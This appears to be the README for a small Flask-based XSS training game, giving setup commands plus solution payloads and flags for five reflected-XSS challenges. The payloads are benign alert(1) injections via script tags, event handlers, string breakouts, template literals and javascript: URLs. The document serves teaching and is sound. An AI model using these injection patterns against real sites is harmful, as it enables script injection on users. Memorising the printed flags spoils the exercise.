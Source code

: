 # Hello, Friend!

Introducing...

# Le Bean

A warm and wholesome reflected XSS fun for the whole family!

## How?

Yes, yes. I'm getting there.

```
python3 -m venv venv/
source venv/bin/activate
pip3 install -r lebean/requirements.txt
cd lebean/
flask run
```

Open `http://localhost:5000` in browser, and have fun!

## Solutions

### Challenge 1

Solution: `<script>alert(1)</script>`

Flag: `flag{ezpz_xss_squeezy}`

### Challenge 2

Solution: `" onfocus="alert(1)` (or some other event)

Flag: `flag{xss_on_event_fun_fun}`

### Challenge 3

Solution: `'); alert(1); //`

Flag: `flag{xss_sneaky_clever_fren}`

### Challenge 4

Solution: `${alert(1)}`

Flag: `flag{xss_templeet_string}`

### Challenge 5

Solution: `javascript:alert(1)`

Flag: `flag{iframe_shenanigans_xss}`
